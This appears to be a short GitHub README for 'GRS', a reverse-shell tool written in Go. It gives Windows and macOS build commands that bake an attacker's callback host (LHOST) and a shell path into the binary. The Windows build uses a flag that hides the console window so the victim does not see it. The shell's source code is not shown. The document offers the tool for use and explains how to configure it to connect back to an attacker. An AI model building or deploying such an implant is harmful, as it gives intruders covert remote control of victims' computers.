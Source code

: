 # GRS
### A Golang reverse shell


#### To build:

Windows:
    `$ go build -ldflags "-X 'main.host=**LHOST**' -X 'main.shell=**shell path**' -H windowsgui" "windows/GRS.go"`

Darwin:
    `$ go build -ldflags "-X 'main.host=LHOST' -X 'main.shellPath=shell path'" "darwin/GRS.go"`
